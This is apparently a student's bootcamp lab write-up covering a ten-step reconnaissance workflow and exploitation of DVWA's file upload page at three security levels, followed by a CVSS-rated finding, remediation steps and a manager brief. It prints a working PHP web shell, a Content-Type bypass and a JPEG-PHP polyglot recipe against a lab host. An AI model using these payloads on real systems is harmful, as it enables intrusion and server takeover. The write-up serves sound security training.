









# S09 — Recon Workflow & File Upload Exploitation

**DFCS Bootcamp · Atomcamp · Cohort 2**

| | |
|---|---|
| **Name** | `[Your Name]` — _placeholder, still to fill_ |
| **Repository** | `[https://github.com/<your-username>/pseb-dfcs-bootcamp]` — _placeholder, still to fill_ |
| **Environment** | Kali Linux (attacker) / DVWA on Metasploitable2 (`192.168.37.132`), isolated lab network |
| **Tasks** | Task 1 — Recon workflow · Task 2 — File upload (Low/Medium/High) · Task 3 — Remediation brief |

> **Scope & legal note:** DVWA is deliberately vulnerable and runs on the course lab only. These techniques are lawful solely against systems you own or are contracted in writing to test.

---

## Task 1 — My Ten-Step Recon Workflow

Each step states the question it answers, the tool, the output, and the stopping condition.

| # | Question | Tool | Output | Stop when |
|---|----------|------|--------|-----------|
| 1 | Who owns this and when was it created? | whois / PKNIC for .pk | Registrar, dates, name servers | Registration facts recorded |
| 2 | Where does the domain point? | dig A/MX/NS/TXT | Mail, hosting, verification records | All four record types captured |
| 3 | What else exists under this domain? | subfinder, assetfinder, amass | Candidate hostname list | Three sources merged |
| 4 | Which candidates respond? | httpx | Resolved, deduplicated list | List resolved |
| 5 | What services are exposed? | nmap / naabu | Service inventory | Ports enumerated + verified |
| 6 | What is it built with? | whatweb | Stack with versions | Tech + version separated |
| 7 | What is hidden and unlinked? | gobuster -x php,txt,bak | Hidden paths and files | Wordlist + key extensions done |
| 8 | What endpoints exist? | katana -d 2 | URL inventory | Depth 2 crawl complete |
| 9 | What input does each endpoint take? | ffuf (rate-limited) | Parameters / hidden paths | Parameters mapped at safe rate |
| 10 | What is misconfigured or outdated? | nikto, nuclei, sslscan | Server + TLS findings | Findings triaged |

**One tool choice I made differently:**
`[PLACEHOLDER — state your own choice and defend it, e.g. "I used katana instead of gau because the target is a live app with JavaScript-rendered links, so a live crawler returns current endpoints that public archives never saw." Replace with your own reasoning.]`

### Evidence — Step 6 (whatweb): technology fingerprint

```bash
whatweb -v 192.168.37.132
```

Identifies the stack: Apache 2.2.8, PHP 5.2.4-2ubuntu5.10, Ubuntu, WebDAV — each a dated component worth a version-to-CVE lookup.




### Evidence — Step 5 (nmap): exposed services

```bash
nmap 192.168.37.132
```



---

## Task 2 — DVWA File Upload: All Levels

This DVWA build (v1.0.7) exposes three security levels — **Low, Medium and High**; it has no Impossible level, so the Impossible-grade protections are described in the remediation instead.

### Baseline (do this first, every time)

```
# upload a real image, then confirm it is reachable
http://192.168.37.132/dvwa/hackable/uploads/images.jpeg
```

Success message names the path: `../../hackable/uploads/images.jpeg successfully uploaded!` — that path is half the exploit.



### Level Low — no validation

Control: none. Upload a PHP file directly; the server executes it.

```php
# shell.php
<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>
```
```
http://192.168.37.132/dvwa/hackable/uploads/shell.php?cmd=id
```

Result: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. Read the uid honestly — www-data is the Apache service account, not root.



### Level Medium — client MIME check

Control: the app trusts the browser-supplied Content-Type. Intercept in Burp and change only that line.

```
Content-Type: application/x-php   ->   Content-Type: image/jpeg
# forward; server accepts. Then:
http://192.168.37.132/dvwa/hackable/uploads/shell.php?cmd=id
```




**Lesson:** anything the browser supplies can be changed in the proxy, so client-side validation is not validation.

### Level High — content + extension inspection

Control: inspects the file itself, so faking the Content-Type no longer works. Bypass with a polyglot — a genuine JPEG that also contains PHP.

```bash
file images.jpeg                             # confirm a genuine JPEG
convert images.jpeg -resize 50x50 small.jpg  # re-encode to a clean JPEG
printf '<?php system($_GET["cmd"]); ?>' >> small.jpg
file small.jpg        # must still say: JPEG image data
identify small.jpg    # must still report dimensions
# upload via the High form, then (note the filename the server assigns):
http://192.168.37.132/dvwa/hackable/uploads/small.jpg?cmd=id
```

> **Filename trap:** the real image is `images.jpeg`, so the command must reference that exact name, not `image.jpg`.




**Honest result:** at High the polyglot **defeats the upload filter** (the file is accepted as a genuine image) but does **not** achieve code execution — Apache serves a `.jpg` as an image, not as PHP, so `?cmd=id` just renders the picture. Full RCE at High needs a second weakness to make the server treat the file as PHP, such as Local File Inclusion pointing at the uploaded path, or an uploaded `.htaccess` that maps `.jpg` to the PHP handler. The upload bypass itself is the finding; execution is the follow-on that High alone does not grant.

### What each level teaches

| Level | Control | Bypass | Lesson |
|-------|---------|--------|--------|
| Low | None | Upload .php directly | An unrestricted upload is immediate RCE |
| Medium | Client MIME type | Change Content-Type in Burp | Client-side validation is not validation |
| High | Content + extension | Polyglot passes the filter; no direct exec | Inspecting the file is not enough — also deny execution in the folder |

A fully-hardened ("Impossible") level would add — and this DVWA build does not implement: validate content server-side, rename the stored file to a random name with a fixed safe extension, and deny execution in the upload directory. Any one of these, especially the no-execution rule, defeats every bypass above.

### The finding, written properly

| | |
|---|---|
| **Title** | Unrestricted File Upload Leading to Remote Code Execution |
| **Severity** | CRITICAL — CVSS 9.8 |
| **Vector** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Affected** | `http://192.168.37.132/dvwa/vulnerabilities/upload/` |
| **CWE** | CWE-434 — Unrestricted Upload of File with Dangerous Type |

**Proof of concept**
1. Baseline a legitimate `.jpg` upload; response confirms the destination path and that it is web-accessible.
2. At Low, upload `shell.php`; request `?cmd=id` returns `uid=33(www-data)` — confirms RCE.
3. At Medium, change Content-Type to `image/jpeg` in Burp; upload succeeds — validation depends on a client value.
4. At High, upload a JPEG+PHP polyglot; `file` still reports JPEG so the upload filter is bypassed. Requesting it serves the image, so High blocks direct execution — RCE would need a second weakness (LFI or `.htaccess`).

**Impact:** RCE as the web-server account. Reading config files yields DB credentials; MySQL is reachable on 3306 with them.

**Remediation:** 1) Validate content server-side (magic bytes, decode the image). 2) Extension allowlist + randomise the stored filename. 3) Deny execution in the upload directory (`Options -ExecCGI`; no PHP handler). 4) Serve uploads with `Content-Disposition: attachment`.

---

## Task 3 — Remediation Brief (for a non-technical manager)

Full brief: [remediation/manager-brief.md](remediation/manager-brief.md). One page, no jargon — the words "payload" and "shell" are deliberately avoided.

**Why this matters:** our upload feature lets a visitor send us a file and then open that same file back from our website. Because we do not properly check what the file really is, and because the folder we keep uploads in is allowed to run programs, an attacker can send us a file that is secretly a small program and then make our own server run it. From that moment they are operating inside our server with the same access our website has — reading configuration files, reaching our database, and using our machine as a foothold into the rest of the network. No password of ours is needed and no staff member has to be tricked; a single upload is enough. That is why this is rated Critical.

**What must change:**
1. Check what each uploaded file truly is on our own servers — not what the visitor's browser claims it is.
2. Only accept a short list of safe file types, and rename every stored file to a random name we control.
3. Configure the upload folder so it can store files but can never run them. This single change stops the attack even if every other check is bypassed.
4. Serve uploaded files as downloads rather than letting the browser open them in place, and add size and rate limits.

---

## Notes for the author (fix before uploading)

- `[Your Name]` and the repository URL at the top are still **placeholders**.
- Task 1 "One tool choice I made differently" is still a **bracketed placeholder** — write your own reasoning.
- **Folder renamed** from the homework template's leftover `s09-recon-and-upload` to **`s10-upload-exploitation`** (the `s09` name was already used by the previous session). The headings in this README still read "S09" — that is the topic title copied from the homework document, left unchanged as requested; tell me if you also want those relabelled to S10.

## Figure coverage

All five upload figures named in the document's repo structure are present:
`f-baseline-upload.png`, `f-low-cmd-id.png`, `f-medium-burp.png`, `f-high-upload.png`, `f-high-result.png` — **none missing.**

Figures added **beyond** the document's listed structure (genuine evidence that had no filename slot in the doc):
- `workflow/f-whatweb-1.png`, `workflow/f-whatweb-2.png`, `workflow/f-nmap.png` — Task 1 recon evidence.
- `upload/f-medium-result.png` — the second Medium shot (the `uid` output after the Burp bypass); the doc listed only `f-medium-burp.png`.
